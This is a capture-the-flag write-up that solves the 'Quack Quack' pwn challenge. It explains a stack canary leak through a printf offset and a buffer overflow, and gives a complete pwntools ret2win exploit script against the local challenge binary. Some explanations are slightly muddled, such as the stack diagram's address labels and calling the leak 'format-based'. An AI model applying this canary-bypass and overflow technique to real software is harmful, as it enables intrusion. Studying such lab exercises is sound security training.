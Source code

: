 ```yaml
---
title: "Quack Quack 🦆 - Stack Canary Exploit Writeup"
tags: [CTF, binary exploitation, stack canary, ret2win, pwn]
---
```


# Quack Quack 🦆

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm.

**Quack Quack**, it's time to face the Duck!

## Inspection 🕵️

First we can check the protections enabled on the binary:

![image](https://github.com/user-attachments/assets/632ab392-d266-4b5b-8342-2e543a6702e0)

We can see that there is a canary. Then, in Ghidra:

![image](https://github.com/user-attachments/assets/ab52d254-fd1b-4f6b-8f73-2976fce00e0d)

We can see that in the first input, we must put "Quack Quack ", otherwise the binary displays "Where are your Quack Manners?!" and exit.

Four interesting lines here:
- `read(0, &local_88, 0x66);` → reads 102 bytes into the buffer
- `pcVar1 = strstr((char *)&local_88, "Quack Quack ");` → finds the position of our marker string
- `printf("Quack Quack %s, ready to fight the Duck?\n\n> ", pcVar1 + 0x20);` → prints data starting 32 bytes after our string (leak!)
- `read(0, &local_68, 0x6a);` → overflow is possible here (stack write past the buffer)

This 0x20 offset lets us leak data from the stack, starting 0x20 bytes after our "Quack Quack ", which helps us reach part of the canary.

Let's try to push a string with a specific length, and "Quack Quack " at the very end: 

- 0x66 => 102 in decimal
- "Quack Quack " => 12 characters

After some debugging with gdb, I saw that I needed exactly 89 + 12 characters to reach the canary:

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")
```

![image](https://github.com/user-attachments/assets/dcc251ad-8d84-4e01-8e58-7bc934893c4f)

Ok, now we leaked the canary, we're able to overwrite RIP and take control of the win function, "duck_attack".

## Stack Overflow Explained 🧵

Why does the second read() allow us to overwrite the stack canary and return address?

Let’s take a closer look at the vulnerable function:

```
read(0, &local_88, 0x66); // First read (102 bytes)
...
read(0, &local_68, 0x6a); // Second read (106 bytes) - the overflow
```

## 📌 Stack layout (simplified)

Here’s how the local variables are laid out on the stack:

```
|---------------------| <- higher address
|    local_88         |  ← 120 bytes total buffer (15 × 8 bytes)
|---------------------|
|     local_10        |  ← stack canary
|---------------------|
|     saved RBP       |
|---------------------|
|     return address  | <- lower address
```
The stack grows downward in memory (higher → lower addresses)

Now, look at the second read:

```
read(0, &local_68, 0x6a); // 106 bytes
```

We're writing **106 bytes** starting from `&local_68`, which is **not the start** of the buffer — it's **already 32 bytes down** (because `local_88` to `local_68` spans 4 × 8 bytes = 32 bytes).

So how much space is left?
- Total buffer size = 120 bytes
- Offset to local_68 = 32 bytes
- Remaining space = 120 - 32 = 88 bytes
- Data written = 106 bytes
    → Overflow of 18 bytes


![image](https://github.com/user-attachments/assets/d49253e1-4c63-4377-8590-72eb7080e0fa)

The win function, "duck_attack", located at the address "0x0040137f" **(NO PIE)**

## Full exploit 🎯

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")

payload2  = b"A" * 88
payload2 += p64(canary_val)
payload2 += p64(0)
payload2 += p64(0x0040137f) # address of duck_attack()

p.sendafter(b'> ', payload2)

p.interactive()
```

![image](https://github.com/user-attachments/assets/76a2911b-254b-4b15-8c70-a74796145322)

Pwned! 🦆🔥

## Conclusion 🧠

By abusing a format-based leak and a stack canary bypass, we successfully redirected execution to the `duck_attack` function and defeated the cursed villagers. 
 
Sir Alaric wins again — without harming a single duck. 🦆✨

Final result: a clean ret2win exploit using stack leak, canary bypass, and precise buffer control — all thanks to a duck 🦆
